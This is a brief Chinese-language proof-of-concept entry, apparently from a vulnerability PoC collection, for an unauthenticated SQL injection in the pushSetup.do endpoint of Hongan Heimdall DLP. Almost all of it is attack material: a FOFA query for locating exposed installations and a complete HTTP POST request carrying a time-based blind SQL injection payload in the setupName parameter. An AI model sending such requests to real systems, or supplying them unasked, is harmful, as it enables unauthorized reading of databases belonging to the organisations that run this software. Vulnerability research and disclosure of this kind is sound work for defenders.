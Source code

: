# 虹安DLP数据泄漏防护系统pushSetup.do存在SQL注入漏洞

虹安Heimdall DLP数据泄漏防护系统 pushSetup.do 接口存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息。

## fofa
```javascript
body="userReg/initUserReg.do"
```

## poc
```javascript
POST /dlp/userReg/pushSetup.do HTTP/1.1
Host: 
Priority: u=4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

setupName={{urlescape(1' AND (SELECT 6789 FROM (SELECT(SLEEP(5)))nxdq) AND 'vpUG'='vpUG)}}
```

![image-20241227223225696](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272232761.png)